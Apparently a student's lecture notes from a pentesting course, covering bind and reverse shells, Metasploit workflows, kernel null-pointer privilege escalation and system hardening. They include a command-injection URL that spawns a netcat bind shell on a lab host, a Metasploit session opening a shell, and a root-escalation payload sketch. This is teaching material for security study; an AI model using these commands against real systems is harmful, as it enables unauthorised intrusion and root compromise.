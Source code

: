 # Lecture 11 - 13.11.2024 - Pentesting 2

# Bind and Reverse Shells

- Sending commands through URL can be frustrating
- Goal: Establish a shell for issuing commands to the victim machine

![image.png](Lecture%2011%20-%2013%2011%202024%20-%20Pentesting%202%2013d57d12e96680a09aecc7260c398a5f/image.png)

Two kinds of shells:

- **Bind shell:** Attacker connects to victim’s listening port
- **Reverse shell**: Victim connects to attacker’s listening port
    - Tip fra Felix: Brug [https://www.revshells.com/](https://www.revshells.com/) til at lave reverse shells

## Demo

- Let’s create a shell to Bob machine
- https://bob/index.php?page=shop.pdf_output&option=com_virtuemart&showpage’; nc –l –p 4444 –e /bin/sh;’´
- While on the attacker’s machine: `nc -v bob 4444`
- Is that a bind or reverse shell?

# Automation: Metasploit

- Metasploit is a popular framework for penetration testing
- Consists of Exploits, Payloads, Options, Encoders
- Typical attacking strategy:
    - Picking an exploit
    - Setting exploit options
    - Picking a payload
    - Setting payload options
    - Running the exploit
    - Connecting to remote system
    - Performing post exploitation processes

## Metasploit Basic Commands

- Identify and add remote hosts
    - `db_nmap -v -sV <network_to_scan>; hosts -R`
- Start exploit DB: `service postgresql start; msfdb init`
- Exploit search: help search
    - *e.g. by ID from MS Security Bulletin:* `search MS13-069`
    - *e.g. by ID from CVE:* `search cve:2013-3660`
    - *e.g. by name:* `seach name:Joomla`
- Use exploit: `use exploit_name`
    - `show options`
    - `show targets`
    - `show advanced`
    - `show payloads`
- Set variables for options/targets/advance: `set <variable_name> <value>`
- Launch the exploit: `exploit`

### Demo

```powershell
msfconsole
searcg joomla
use 11
show info
setg rhosts 192.168.61.2
run # Lists all the installed plugins, where we can look for "interesting stuff"
search tinybrowser # There's a exploit here!
use 0 # It was the only one - Says no payload configured, defaulting to generic shell
show payloads # Lists the payloads
Set payload 2 # Sets payload as number 2 from the list
run # Run and see if it works - Send a php to the server, and calls the payload - Opens a shell on Bobs machine!!
# We now have shell access on Bobs machine as www-data
```

# Privilege Escalation

So far we can run commands as www-data

- Complete control over web page
- Compromised confidentiality and integrity

Goal: root access

![image.png](Lecture%2011%20-%2013%2011%202024%20-%20Pentesting%202%2013d57d12e96680a09aecc7260c398a5f/image%201.png)

Why:

- Read/write any sensitive file
- Persist between reboots
- Permanent backdoor
- etc

How:

- Kernel exploits
- Services running as root
- Misconfigured services (sudo, cron.d, …)
- etc

## Null pointer dereference

A **null pointer dereference** is when a pointer with a value of NULL is used as though it pointed to a valid memory area.

**Java:**

```java
Object x=null;
System.println(x.getString());
```

**C:**

```c
int *pi, a;
pi=NULL;
a=*pi
printf("%d",a);
```

In C, it normally triggers a fault (because then NULL page is not mapped)

What if the page at address 0 gets mapped?

```c
char *mem=NULL;
mem=mmap((void*)0, 4096,...)
mem[0]=&attacker_payload;

// e.g.
static int attacker_payload 
{
	commit_creds (prepare_kernel_cred(0););
}
/* Give root privilege to the current process */
```

Assuming the attacker writes a function that throws a null pointer dereference. Would that work?

The function needs to run on privileged mode (kernel mode)

![image.png](Lecture%2011%20-%2013%2011%202024%20-%20Pentesting%202%2013d57d12e96680a09aecc7260c398a5f/image%202.png)

It’s a problem in the bluetooth stack:

Any linux machine with bluetooth support between 2001 and 2009, could be attacked with privilege escalation easily!

This is often easier than expected!

![image.png](Lecture%2011%20-%2013%2011%202024%20-%20Pentesting%202%2013d57d12e96680a09aecc7260c398a5f/image%203.png)

![image.png](Lecture%2011%20-%2013%2011%202024%20-%20Pentesting%202%2013d57d12e96680a09aecc7260c398a5f/image%204.png)

# Hardening

Hardening is the process of reducing the surface of vulnerability of a system.

Viz. Minimum exposure

Prerequisite: You must understand, exactly, the purpose of the system.

## Network services (Adversary)

- Actual goal dependent on context (CIA)
- Want to subvert running services
- Need information to find exploits
- Port-scanning, automated vulnerability detection tools
- Automated vulnerability exploitation tools

## NIST SP 800-123

- Patch the operating system
- Remove unnecessary services, applications, and protocols
- Configure users, groups, and permissions
- Configure resource controls
- Install additional security controls, e.g. anti-virus, host-based firewalls, and intrusion detection systems (IDS)
- Test

## Network services (Administrator)

- Actual coal dependent on context (CIA)
- Reduce surface of vulnerability
- Disable unnecessary services
- Keep the system upgraded
- Keep the system compartmentalised

# Useful commands on Kali

- Static port forwarding
    - `ssh -N -L <Lport>:<studentip>:<Rport> pensim@130.226.143.130`
    - `msfconsole`
- Dynamic port forwarding
    - `Add "socks4 localhost <Lport>" to /etc/proxychains4.conf`
    - `ssh -D <Lport> pensim@130.226.143.130`
    - `Proxychains -q msfconsole`